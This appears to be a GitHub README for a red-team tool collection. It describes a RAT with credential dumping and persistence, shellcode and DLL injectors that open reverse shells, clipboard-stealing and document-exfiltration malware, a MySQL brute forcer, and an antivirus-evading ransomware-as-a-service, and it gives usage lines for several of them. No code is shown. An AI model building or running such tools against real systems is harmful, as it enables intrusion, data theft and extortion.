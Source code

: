# RedTeamPets
A collection of handy and specific tools for the Red Teamer

PLEASE USE WISELY AND FOR RESEARCH PURPOSES ONLY. I AM NOT RESPONSIBLE FOR ANY MALICIOUS ACTIONS PERFORMED BY USING MY CODES MALICIOUSLY AS IT'S ORIGINAL FORM OR MODIFIED.

__________________________________________________________________________________________________________________________________________________________________


ConvinientRAT:

An Interactive CLI RAT made with Python, that has basic features such as:
Exfiltration,
Persistence,
Privilage Esclation,
Standard Shell,
Nishang Shell,
Credential Dumping,
Mimikatz,
Information gathering,
Downloader

Usage: Start the Server, Launch the client from victim on the same IP and PORT of the server. Rest, A help menu is available on the server itself. Feature updates may continue in the future.


R3dJ0hn:

A C program to inject Single-Stage shellcode into the memory of another running process. It first scans through all the running processes and matches a set of pre-mentioned process names. It tries to acquire an handle to each of them and stops it it gets it.
Then injects a custom shellcode into the memory, thus giving a reverse shell back to the adversary and later on adds registry startup key for persistence. Long sleep timer induced to induce confusion of the blue teamer over the other side.
The project needs to be built each time for each purpose.


Split Drop in Mem:

Another process injector but made with Python that has a dropper built within. The Host.py needs to be run with a 64 bit Single-Stage reverse shell.exe. Example: python host.py reverse_sh.exe. This exe file will be converted to shellcode via Donut and then then encrypted and hosted over HTTP.
Once, the dropper is launched from the victim PC (python drop.py IP:PORT), the encrypted file, KEY and IV will be downloaded. Then the shellcode will be decrypted and injected into python's own memory, thus giving a remote shell back to the adversary.


WinProcInjDLL:

Another process injector made with C, but this time a DLL will be injected instead of a shellcode. The DLL can be made by say MSFVenom.
The DLL has to be hosted via HTTP as payload.dll (Static Naming Convention), and then the C program to be compiled and launched in the victim PC as filename.exe http://IP:PORT/payload.dll. The DLL will be downloaded and injected into Notepad (Can be changed before compilation), Thus giving a reverse shell back to the adversary.


BruteMysql:

A simple wordlist based MySQL Bruteforce program in python. Nothing fancy.


ClipWatch:

A python malware that is programmed to launch from Admin. Creates Persistence via Registry and Scheduled tasks.
It runs periodically and watches the clipboard for data. As it captures the data, it collects it and writes to a file in the same directory. This file could be later exfiltrated. In the future, a Call back home feature could be implemented to upload the data directly onto a server.


Dump VirusShare:

(Blue Team): If one has a special access to VirusShare then this app can't help but if not, This tool will crawl the whole hash directory of VirusShare.com and write a CSV file with all the hashes possible. This will be benefical to Blue teamers often. Though the process is time consuming, but still 100 times faster than the manual approach.


Invoke-Adversary 2022:

Nothing original but Invoke-Adversary already exists in GitHub that is quite used by security companies to demonstrate red team simulation to the clients. Only problem is the original is old and runs on commands and cmdlets from old powershell versions. I have just morphed it to be used with the current powershell version of 2022.


Xfiltrator:

An exfiltration malware made with Python that connects back to an FTP server created by the adversary and it eventually downloads all document based files present within the victim PC. 
Usage: python xfiltrator.py FTP_IP FTP_Username FTP_password


bofhelper:

Another Python based tool that basically helps to find the IP offset during a Buffer Overflow simulation. I have made this for myself once when I was learning to BOF. Best thing about it is you don't have to memorize commands. The whole thing is made interactive.


Eyeris:

(Blue Team): A Python based tool that when provided a PID of an administrative CMD, acts as a task manager but only for that one process.
This is benificial for understanding process flow of malwares so that a pattern can be extracted and an EDR custom query could be built for obvious reasons. This feature is by default present in EDRs but ofcourse personally no one has red team simulation access for research purposes except people working in the EDR company. Anyways
Usage:
Provide a PID from a CMD.
Run a sample malware from the same CMD.
Quit the CMD once it's activities are over.
This program will generate a Tree-Node structure JSON, that can be analyzed and referenced for building the custom EDR queries.


Outis, A ransomware as a service.

A Dedicated Ransomware with it's own C2 and parmanent sleep that only works on instruction from C2. Currently undetected with AV that remains unnamed.
Instructions, Codes, Usage are separately written on the Documentation.txt file.


LilMon:

A small network monitor that monitors and logs IP connects to a set of IPs in a text file and stores it in a log file.

Use Case:
Demonstration Purposes
Checking a computer for connects to known malicious IPs


RedSim (EXE + PY):

A portable tool run directly or after being converted to exe, serves as a Red Team Simulation Tool. It can run one module or all at once. Please Note the fake malware package is a blank shell and doesn't have a backend that's listening for a connection. It just purposefully disturbs the client system.
Kindly run with proper permissions and privileges.
